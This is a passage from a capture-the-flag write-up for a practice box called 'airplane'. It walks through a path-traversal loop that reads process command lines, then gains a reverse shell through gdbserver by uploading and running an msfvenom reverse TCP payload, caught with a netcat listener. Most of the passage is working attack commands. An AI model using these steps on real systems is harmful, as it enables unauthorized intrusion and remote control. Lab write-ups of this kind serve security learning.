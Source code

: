 Yup, it's actually running and it runs as `hudson` as well (From `/etc/passwd` we know that `hudson` has UID `1001`)

Now it's time to brute-force PID and command running the process
```
$ for i in {1..1000}; do echo -n "\r$i"; out=$(curl -s "http://airplane.thm:8000/?page=../../../../../proc/$i/cmdline" | sed 's/\x00/ /g' | grep -v 'Page not found'); if [ -n "$out" ]; then echo "\r$i : $out"; fi; done
[...]
521 : /usr/sbin/NetworkManager --no-daemon 
522 : /usr/sbin/NetworkManager --no-daemon 
525 : /usr/bin/gdbserver 0.0.0.0:6048 airplane 
529 : /usr/bin/python3 app.py 
532 : /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal 
533 : /usr/sbin/ModemManager
```

It runs `gdbserver`. Let's check [bookhacktricks.xyz](https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver#upload-and-execute)
There, I found a nice way to upload a shell

### `gdbserver` exploitation

First I created msfvenom shell
```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 PrependFork=true -f elf -o binary.elf
$ chmod +x binary.elf
```
Then I run GDB
```
$ gdb binary.elf
```

Inside `gdb` shell we set remote target
```
target extended-remote 10.10.92.113:6048
```

Then upload malicious binary to `/tmp`
```
remote put binary.elf /tmp/binary.elf
```
Set executable
```
set remote exec-file /tmp/binary.elf
```

And netcat listener on your machine
```
$ nc -lvnp 4444
```

Then, run!
```
run
```
